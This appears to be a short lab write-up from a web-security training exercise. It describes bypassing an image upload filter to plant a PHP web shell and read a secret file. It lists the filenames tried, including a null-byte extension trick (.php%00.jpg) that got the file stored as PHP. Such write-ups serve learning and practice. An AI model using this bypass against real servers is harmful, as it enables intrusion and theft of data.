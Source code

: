 ### Lab: Web shell upload via obfuscated file extension

This lab contains a vulnerable image upload function.
Certain file extensions are blacklisted, but this defense can be bypassed using a classic obfuscation technique.

To solve the lab, upload a basic PHP web shell, then use it to exfiltrate the contents of the file /home/carlos/secret.
Submit this secret using the button provided in the lab banner.

You can log in to your own account using the following credentials: wiener:peter

_____

Standard behavior.


1) Uploading file with .php extension == ERROR ==> "Sorry, only JPG & PNG files are allowed Sorry, there was an error uploading your file."
2) Uploading file with .png extension (test.png) ===> "The file avatars/test.png has been uploaded." (/files/avatars/test.png)



Exploit.

1) Uploading file *.p.phphp ==> "Sorry, only JPG & PNG files are allowed Sorry, there was an error uploading your file."
2) Uploading file *.php.jpg ==> "The file avatars/shell-lab05.php.jpg has been uploaded." (File treated as jpg file)
3) Uploading file *.php%00.jpg ==> "The file avatars/shell-lab05.php.jpg has been uploaded." (File uploaded as .php)

GET /files/avatars/shell-lab05.php : Success!!!
